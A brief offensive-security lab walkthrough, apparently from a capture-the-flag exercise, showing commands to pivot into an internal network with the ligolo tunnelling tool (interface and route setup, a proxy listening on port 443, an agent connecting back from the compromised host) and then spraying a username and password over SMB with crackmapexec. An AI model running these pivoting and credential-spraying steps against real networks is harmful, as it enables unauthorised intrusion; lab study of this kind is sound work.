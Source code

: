 



```
# Attacker Machine
   sudo ip tuntap add user <your_user> mode tun ligolo

#Delete the 192.168.98.0/24 IP Range from the tun0 interface:  
   sudo ip route del 192.168.98.0/24 dev tun0  

#Up the ligolo interface :  
    sudo ip link set ligolo up  

#Add 192.168.98.0/24 IP range to the ligolo interface:  
    sudo ip route add 192.168.98.0/24 dev ligolo
```


Confirm the route on your attacker machine. The internal IP range is now  
added in the route
` ip route `

Start the proxy on the attacker server
` ./proxy -selfcert -laddr 0.0.0.0:443  `

` ./agent -connect 10.10.200.X:443 -ignore-cert  `

```
#Now, use cme to spray the credentials :
crackmapexec --verbose smb target.txt -u john -p User1@#$%6
```
